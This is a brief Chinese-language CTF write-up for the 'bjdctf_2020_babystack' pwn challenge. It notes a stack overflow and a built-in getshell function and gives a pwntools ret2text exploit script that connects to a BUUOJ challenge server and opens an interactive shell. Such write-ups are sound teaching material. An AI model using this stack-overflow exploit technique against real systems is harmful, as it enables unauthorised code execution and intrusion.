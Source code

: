 ```yaml
---
title: "bjdctf_2020_babystack"
description: ""
date: 2023-04-06T21:03:41+08:00
lastmod: 2023-04-06T21:03:41+08:00
draft: false
images: []
type: docs
weight: 993
toc: true
---
```


## 0x01 分析

![8cec3866b572881028c9584ca038f7c0](images/8cec3866b572881028c9584ca038f7c0.png)  

![1cd94d9289eb525157d7325df6994c12](images/1cd94d9289eb525157d7325df6994c12.png)  

有溢出

![50cb56209af3c56f5de238a59323dc12](images/50cb56209af3c56f5de238a59323dc12.png)  

还有直接getshell的函数，所以直接ret2text

## 0x02 Exploit

```python
from pwn import*
# o = process("./pwn")
o = remote("node4.buuoj.cn", 26893)
payload = b'a'*0x18 + p64(0x4007CB) + p64(0x4006E6)
o.sendlineafter(b"length of your name:", str(len(payload)+1).encode())
o.sendline(payload)
o.interactive()

```

![5d3e8513e99437fd36b6c26db3508ee8](images/5d3e8513e99437fd36b6c26db3508ee8.png)  

自行调试
